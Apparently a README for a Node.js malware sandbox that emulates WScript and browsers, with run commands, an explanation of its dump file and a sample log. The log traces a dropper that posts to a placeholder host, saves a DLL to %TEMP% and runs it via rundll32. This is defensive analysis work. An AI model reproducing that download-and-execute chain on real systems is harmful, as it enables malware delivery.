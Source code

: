    1 Oct 13:09:37 - Possible -b values: [ 'IE11_W10', 'IE8', 'IE7', 'iPhone', 'Firefox', 'Chrome' ]



In the examples folder you may find a deactivated malware file. Run the analysis with:

    node jailme.js -c ./config_wscript_only.json --down=y malware/example.js

Internet browser based malware you may test with

    node jailme.js -b IE11_W10 malware/example_browser.js

At the end of the analysis the complete sandbox context is dumped into a _'sandbox\_dump\_after.json'_ file.

You may want to examine following entries of _'sandbox\_dump\_after.json'_:

* _eval\_calls_ - array of all eval() calls arguments. Useful if eval() is used for deobfucation.
* _wscript\_saved\_files_ - content of all files that the malware attempted to drop. The actual files are saved into the output/ directory too.
* _wscript\_urls_ - all URLs that the malware intended to GET or POST.
* _wscript\_objects_ - WScript or ActiveX objects created.

_'sandbox\_dump\_after.json'_ uses [JSONPath](http://goessner.net/articles/JsonPath/), implemented by [JSON-js/cycle.js](https://github.com/douglascrockford/JSON-js), to save duplicated or cyclic references to a same object.

## Sample output ##


    bash@linux# node jailme.js malware/example.js
    11 Jan 00:06:24 - Malware sandbox ver. 0.2
    11 Jan 00:06:24 - ------------------------
    11 Jan 00:06:24 - Sandbox environment sequence: env/eval.js,env/wscript.js
    11 Jan 00:06:24 - Malware files: malware/example.js
    11 Jan 00:06:24 - Output file for sandbox dump: sandbox_dump_after.json
    11 Jan 00:06:24 - Output directory for generated files: output/
    11 Jan 00:06:24 - ==> Preparing Sandbox environment.
    11 Jan 00:06:24 -  => Executing: env/eval.js
    11 Jan 00:06:24 - Preparing sandbox to intercept eval() calls.
    11 Jan 00:06:24 -  => Executing: env/wscript.js
    11 Jan 00:06:24 - Preparing sandbox to emulate WScript environment.
    11 Jan 00:06:24 - ==> Executing malware file(s).
    11 Jan 00:06:24 -  => Executing: malware/example.js
    11 Jan 00:06:24 - ActiveXObject(WScript.Shell)
    11 Jan 00:06:24 - Created: WScript.Shell[1]
    11 Jan 00:06:24 - WScript.Shell[1].ExpandEnvironmentStrings(%TEMP%)
    11 Jan 00:06:24 - ActiveXObject(MSXML2.XMLHTTP)
    11 Jan 00:06:24 - Created: MSXML2.XMLHTTP[2]
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2].open(POST,http://EXAMPLE.COM/redir.php,false)
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2].setRequestHeader(Content-Type, application/x-www-form-urlencoded)
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2].send(iTlOlnxhMXnM=0.588860877091065&jndj=IT0601)
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2] Not sending data, if you want to interract with remote server, set --down=y
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2] Calling onreadystatechange() with dummy data
    11 Jan 00:06:24 - ActiveXObject(ADODB.Stream)
    11 Jan 00:06:24 - Created: ADODB_Stream[3]
    11 Jan 00:06:24 - ADODB_Stream[3].Open()
    11 Jan 00:06:24 - ADODB_Stream[3].Write(str) - 10001 bytes
    11 Jan 00:06:24 - ADODB_Stream[3].SaveToFile(%TEMP%\57020551.dll, 2)
    11 Jan 00:06:24 - WScript.Shell[1].Exec(rundll32 %TEMP%\57020551.dll, DllRegisterServer)
    11 Jan 00:06:24 - ADODB_Stream[3].Close()
    11 Jan 00:08:42 - ==> Script execution finished, dumping sandbox environment to a file.
    11 Jan 00:08:42 - Saving: output/_TEMP__49629482.dll
    11 Jan 00:08:42 - Saving: output/_TEMP__38611354.pdf
    11 Jan 00:08:42 - Generated file saved
    11 Jan 00:08:42 - Generated file saved